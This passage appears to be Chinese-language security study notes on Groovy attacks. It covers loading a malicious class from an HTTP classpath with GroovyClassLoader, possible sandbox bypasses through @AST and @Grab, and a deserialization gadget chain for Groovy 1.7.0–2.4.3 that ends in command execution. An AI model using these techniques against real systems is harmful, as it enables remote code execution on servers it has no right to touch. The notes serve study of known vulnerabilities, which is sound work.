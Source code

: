 ![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241028212608817.png)

loadClass会从ucp寻找该类



复现：

建一个恶意groovy类

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241028212829041.png)

在该目录下开http服务，并用GroovyClassLoader加载

```java
public class groovyClassLoader_URL {
    public static void main(String[] args) throws Exception
    {
        GroovyClassLoader gcl = new GroovyClassLoader();
        gcl.addClasspath("http://127.0.0.1:8888/");
        gcl.loadClass("groovy_RuntimeEvil");
    }
}
```



## Groovy沙箱

maybe沙箱会限制evaluate call这些函数执行点

@AST和@Grab可能会绕过过滤，遇到了试一下吧，底层native的东西我也不会分析



## Groovy反序列化

**Groovy : 1.7.0-2.4.3**

改下依赖到漏洞版本，利用链

```java
AnnotationInvocationHandler.readObject()
    Map.entrySet() (Proxy)
        ConversionHandler.invoke()
            ConvertedClosure.invokeCustom()
                MethodClosure.call()
                    ProcessGroovyMethods.execute()
```

ConvertedClosure.invokeCustom调用了call方法

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241021203132817.png)

进而触发任意方法执行

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241021203219533.png)
